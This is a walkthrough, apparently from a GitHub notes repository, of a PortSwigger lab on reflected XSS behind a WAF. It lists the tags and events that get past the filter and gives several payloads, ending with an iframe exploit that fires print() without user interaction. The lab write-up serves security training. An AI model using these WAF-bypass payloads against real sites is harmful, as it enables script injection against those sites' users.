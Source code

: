 
# Reflected XSS into HTML context with most tags and attributes blocked

This lab contains a reflected XSS vulnerability in the search functionality but uses a web application firewall (WAF) to protect against common XSS vectors.

To solve the lab, perform a cross-site scripting attack that bypasses the WAF and calls the print() function.

Note: Your solution must not require any user interaction. Manually causing print() to be called in your own browser will not solve the lab.

---------------------------------------------

References: 

- https://portswigger.net/web-security/cross-site-scripting/exploiting

- https://portswigger.net/web-security/cross-site-scripting/cheat-sheet

---------------------------------------------

The content of the search is reflected inside a h1 HTML element:



![img](images/Reflected%20XSS%20into%20HTML%20context%20with%20most%20tags%20and%20attributes%20blocked/1.png)



If we try to add a tag "h1" it gets blocked:



![img](images/Reflected%20XSS%20into%20HTML%20context%20with%20most%20tags%20and%20attributes%20blocked/2.png)


But not if it is "h2":



![img](images/Reflected%20XSS%20into%20HTML%20context%20with%20most%20tags%20and%20attributes%20blocked/3.png)


With this payload the HTML is generated correctly:

```
<h3>a</h3>
```



![img](images/Reflected%20XSS%20into%20HTML%20context%20with%20most%20tags%20and%20attributes%20blocked/4.png)


With this payload it says “Attribute is not allowed”:

```
<h3 onerror=alert(1)>a</h3>
```



![img](images/Reflected%20XSS%20into%20HTML%20context%20with%20most%20tags%20and%20attributes%20blocked/5.png)


I sent it to Intruder and got all events from https://portswigger.net/web-security/cross-site-scripting/cheat-sheet:  



![img](images/Reflected%20XSS%20into%20HTML%20context%20with%20most%20tags%20and%20attributes%20blocked/6.png)


The only ones working:
- onbeforeinput
- onratechange
- onscrollend
- onresize



![img](images/Reflected%20XSS%20into%20HTML%20context%20with%20most%20tags%20and%20attributes%20blocked/7.png)


I will do the same for the tags, in this case using Battery Ram attack type:



![img](images/Reflected%20XSS%20into%20HTML%20context%20with%20most%20tags%20and%20attributes%20blocked/8.png)


The only ones working:
- custom tags
- body



![img](images/Reflected%20XSS%20into%20HTML%20context%20with%20most%20tags%20and%20attributes%20blocked/9.png)



The information in the cheatsheet from these attributes is:


![img](images/Reflected%20XSS%20into%20HTML%20context%20with%20most%20tags%20and%20attributes%20blocked/10.png)
![img](images/Reflected%20XSS%20into%20HTML%20context%20with%20most%20tags%20and%20attributes%20blocked/11.png)
![img](images/Reflected%20XSS%20into%20HTML%20context%20with%20most%20tags%20and%20attributes%20blocked/12.png)
![img](images/Reflected%20XSS%20into%20HTML%20context%20with%20most%20tags%20and%20attributes%20blocked/13.png)



So we have 3 possible payloads, because as "audio" and “video” tags are not available we can not use "onratechange":

```
<xss contenteditable onbeforeinput=alert(1)>test
<xss onscrollend=alert(1) style="display:block;overflow:auto;border:1px dashed;width:500px;height:100px;"><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><span id=x>test</span></xss>
<body onresize="print()">
```


Regarding the "onscrollend" payload, I updated it because it can not use “br” or “span”. However, it is necessary to scroll to the top or the bottom to see the alert pop:

```
<xss onscrollend=alert(1) style="display:block;overflow:auto;border:1px dashed;width:500px;height:100px;"><h2>a</h2><h3 id=x>test</h3></h3>
```



![img](images/Reflected%20XSS%20into%20HTML%20context%20with%20most%20tags%20and%20attributes%20blocked/14.png)


Regarding the “onbeforeinput” payload, it is necessary to click the text and update it for the alert to pop:

```
<xss contenteditable onbeforeinput=alert(1)>test</xss>
```



![img](images/Reflected%20XSS%20into%20HTML%20context%20with%20most%20tags%20and%20attributes%20blocked/15.png)



The third one is valid but it needs the user to change the size of the tab:

```
<body onresize="print()">
```



![img](images/Reflected%20XSS%20into%20HTML%20context%20with%20most%20tags%20and%20attributes%20blocked/16.png)



We will send this last one inside an iframe:

```
https://0ad100ff04e7e76582e088af00ae0026.web-security-academy.net/?search=%3Cbody+onresize%3Dprint%28%29%3E
```

```
<iframe src="https://0ad100ff04e7e76582e088af00ae0026.web-security-academy.net/?search=%3Cbody+onresize%3Dprint%28%29%3E" height="100%" title="Iframe Example" onload=body.style.width='100%'></iframe>
```
